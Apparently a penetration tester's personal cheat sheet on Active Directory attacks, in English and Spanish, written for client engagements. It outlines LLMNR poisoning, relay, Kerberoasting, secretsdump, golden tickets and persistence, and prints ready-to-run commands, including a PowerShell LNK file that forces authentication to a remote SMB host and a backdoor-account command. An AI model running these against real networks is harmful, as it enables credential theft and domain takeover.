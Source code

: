 # Windows Active directory

[**internal pentesting "all the things" notes**](https://swisskyrepo.github.io/InternalAllTheThings/)

## Quick notes

### Attack Vectors
- [LLMNR POISONING](https://stridergearhead.medium.com/llmnr-poisoning-an-ad-attack-1265f5365332)
    - This is a quick view
    - [Attack tool "Responder"](https://www.kali.org/tools/responder/)
- [SMB Relay Attacks](https://medium.com/@aniswersighni/active-directory-attacks-smb-relay-attacks-ea7d8cf9a8f8)
    - [This guide is a little bit better than the other one](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay)
- [Pass the hash](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key)
- [IPv6 AD Attack (mitm)](https://stridergearhead.medium.com/ipv6-attack-ad-attack-ea50476dccee)
- [Passback attacks](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)
- others that i didn't take notes

### Initial internal pentest attack strategy
1. mitm6 or responder
2. run scans to generate traffic
3. if scans are taking too long, look for websites in scope `(http_version)`
4. Look for default credentials on web logins
    - Printers
    - Jenkins
    - Etc
5. enumerate all

### Enumerations commands
- `net user /domain`
- `net user $USER /domain`
- `net group /domain`


### Post-Compromise AD enumeration
- [Bloudhound](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound)
    - `sudo bloodhound-python -d DOMAIN.local -u $USERNAME -p $PASSWORD -ns $IP -c all`
- Plumhound
- Ldapdomaindump
    - `sudo ldapdomaindump ldaps://$IP -u 'DOMAIN\username' -p $PASSWORD`
    - Caso hipotetico de uso: LLMNR => conseguimos un hash => lo crackeamos => probamos la contraseña en otras maquinas => encontramos nuevo login => secrets dump those logins => local admin hashes => re-spray network with local accs
- PingCastle
- etc
- [SeatBelt Tool](https://github.com/GhostPack/Seatbelt)

### Post compromise attacks
- [kali impacket - secrets dump](https://www.kali.org/tools/impacket/)
    - `secretsdump.py DC.LOCAL/USER:'PASSWORD'@$IP` 
- [Kerberoasting](https://book.hacktricks.xyz/v/es/windows-hardening/active-directory-methodology/kerberoast)
    - [más material](https://tools.thehacker.recipes/impacket/examples/getuserspns.py)
    - Cuando comprometemos una cuenta, un ataque para empezar es este.
- Token impersonation attack
    - psexec
    - mimikatz
- [LNK File Attacks](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf): `netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149`
    - Código:

    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk")
    $lnk.TargetPath = "\\192.168.138.149\@test.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
``` 

### Post compromise attack strategy
- 1st
    - kerberoasting
    - secretsdump
    - pass the hash
- 2nd: big deep
    - enum bloodhound
    - old vulns

### Now we own the domain what's next?
- Provide as much value to the client as possible
    - Put your blinders on and do it again
    - Dump the NTDS.dit and crack passwords
    - Enumarate shares for sensitive information
- Persistence can be important
    - What happens if our DA access is lost?
    - Creating a DA account can be useful (remember we have to delete it)
    - creating a golden ticket can be useful too

#### NTDS.dit
- What is it?
    - A DB used to store AD data.
        - User info.
        - Group info.
        - Security descriptors
        - Password hashes
- Golden Ticket attack
    - When we compromise the krbtgt (kerberos target) account, we own the domain
    - We can request access to any resource or system on the domain
    - Golden tickets = complete access to every machine

### Lateral movement notes
- Tools:
    - Psexec => internal tool
    - WinRM

### Persistence
- **Persistence Scripts**
  - `run persistence -h`
  - `exploit/windows/local/persistence`
  - `exploit/windows/local/registry_persistence`

- **Scheduled Tasks**
  - `run scheduleme`
  - `run schtaskabuse`

- **Add a user**
  - `net user hacker password123 /add`
